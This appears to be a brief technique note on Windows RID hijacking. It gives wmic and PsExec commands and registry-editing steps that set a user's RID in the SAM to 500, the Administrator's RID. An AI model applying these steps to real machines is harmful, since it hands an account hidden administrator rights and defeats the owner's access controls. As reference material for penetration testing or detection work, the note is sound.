 ```CMD
wmic useraccount get name,sid
```

```CMD
PsExec64.exe -i -s regedit
```

1. Go to HKLM\SAM\SAM\Domains\Account\Users\
2. Open the users folder, and then open the F key
3. Convert the current user RID to Hex (1010 = 0x3F2)

![[RID_registry1.png]]
5. Change the RID to 500 (500 = 0x01F4) (little-endian)

![[RID-registry2.png]]
